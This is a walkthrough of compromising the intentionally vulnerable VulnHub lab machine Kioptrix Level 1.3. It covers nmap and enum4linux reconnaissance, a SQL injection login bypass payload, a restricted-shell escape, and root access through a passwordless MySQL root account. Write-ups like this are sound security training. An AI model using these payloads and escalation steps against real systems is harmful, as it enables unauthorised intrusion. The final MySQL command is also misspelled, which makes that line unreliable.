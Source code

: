 ﻿#KIOPTRIX: LEVEL 1.3 (#4)

**Today, we'll be looking at the Kioptrix level 4 machine on vulnhub.

You can download the machine [here](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/).**

Let's scan the machine with nmap.

```
┌──(root㉿kali)-[~/kioptrix4]
└─# nmap -sS -A 192.168.88.134
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-15 04:46 EDT
Nmap scan report for 192.168.88.134
Host is up (0.00021s latency).
Not shown: 566 closed tcp ports (reset), 430 filtered tcp ports (no-response)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 9bad4ff21ec5f23914b9d3a00be84171 (DSA)
|_  2048 8540c6d541260534adf86ef2a76b4f0e (RSA)
80/tcp  open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.28a (workgroup: WORKGROUP)
MAC Address: 00:0C:29:31:00:AD (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 4h59m59s, deviation: 2h49m43s, median: 2h59m58s
|_nbstat: NetBIOS name: KIOPTRIX4, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.28a)
|   Computer name: Kioptrix4
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: Kioptrix4.localdomain
|_  System time: 2023-06-15T07:47:07-04:00

TRACEROUTE
HOP RTT     ADDRESS
1   0.22 ms 192.168.88.134

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.15 seconds
```
Browsing the machine on port 80 we find a login page.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic1.png)

We can also see that the machine is running smb.

Let's use enum4linux to find out more information.

```enum4linux 192.168.88.134 -a```

Great! We found three usernames.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic2.png)

Let's test the login form for sql injection.

we'll use ```1 'OR 1=1-- -``` as the password.

We got john's password.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic3.png)

We also got robert's password.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic4.png)

Let's ssh into the machine as john.

Looks like we are in a restricted shell.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic5.png)

Let's try to escape that shell.

I tried a bunch of commands then I tried to cd into a directory and I found that we are using lshell.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic6.png)

I searched online and found a way to escape lshell with **echo** [here](https://www.aldeid.com/wiki/Lshell).

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic7.png)

You can also read this great [article](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/) about escaping restricted shells.

Let's use linpeas for local enumeration and try to get root.

From the results of the script, we see that we can log into mysql as root with no password.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic8.png)

```mysql -u root -p```

We got in!

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic9.png)

Let's give john admin privilges.

```select_exec('usemod -a -G admin john');```

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic10.png)

Now, we can just use ```sudo su```.

We are root.

![](https://raw.githubusercontent.com/user3016/vulnhub-writepus/main/kioptrix4/pics/pic11.png)
